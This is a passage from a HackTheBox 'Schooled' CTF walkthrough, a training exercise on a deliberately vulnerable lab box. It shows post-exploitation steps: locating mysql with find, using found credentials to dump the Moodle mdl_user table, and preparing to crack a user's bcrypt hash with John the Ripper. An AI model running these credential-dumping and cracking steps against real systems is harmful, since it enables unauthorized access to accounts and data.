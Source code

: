 ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Schooled_Writeup/images/schooled11.jpg)
- We get database creds as *moodle:P################0* .
- Notice that mysql dosent exist in PATH. We find mysql using the basic find command: `find / -name mysql 2> /dev/null`
- Mysql is at `/usr/local/bin/mysql`.
- We perform 3 basic queries now to enumerate the database: 
    - First cd to /usr/local/bin.
- Then:
    - `mysql -u moodle -pPlaybookMaster2020 -e 'show databases;'` --> infer moodle as the db name.
    - `mysql -u moodle -pPlaybookMaster2020 -e 'use moodle; show tables;'`  --> infer mdl_user could be of interest.
    - `mysql -u moodle -pPlaybookMaster2020 -e 'use moodle; select * from mdl_user;'` --> DB creds dump. 
    
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Schooled_Writeup/images/schooled12.png)
- Jamie's account here is of interest as he is one of the users on the box.
- This hash is a `bcrypt hash`.
- Use john the ripper to crack the hash:
